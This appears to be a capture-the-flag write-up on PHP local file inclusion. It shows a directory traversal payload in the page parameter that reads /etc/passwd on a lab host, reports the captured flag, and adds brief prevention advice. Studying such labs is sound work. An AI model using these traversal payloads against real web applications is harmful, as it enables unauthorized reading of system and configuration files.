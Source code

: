 # PHP File Inclusion exploit
PHP's include() function can be exploited to view seemingly hidden files, such as configuration files.  
/etc/passwd file stores essential information, which required during login - it stores user account information.

# Local File Inclusion

### Step 1
> * Attack
> 1. trial and error with directory hierarchy
> *  Naviagte to http://0.0.0.0/?page= **included_file**:  
> _Input /etc/passwd -> ../../etc/passwd -> ../../../etc/passwd_  
> _http://0.0.0.0/?page=../../../../../../../etc/passwd_  
**Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0**

* https://null-byte.wonderhowto.com/how-to/exploit-php-file-inclusion-web-apps-0179955/

## Prevention
> * Never use arbitrary input data in a literal file include request
> * https://www.esecurityplanet.com/browser-security/how-to-prevent-remote-file-inclusion-rfi-attacks.html#:~:text=The%20best%20way%20to%20prevent,a%20literal%20file%20include%20request.&text=In%20this%20example%20PHP%20code,site%20loads%20the%20home%20page.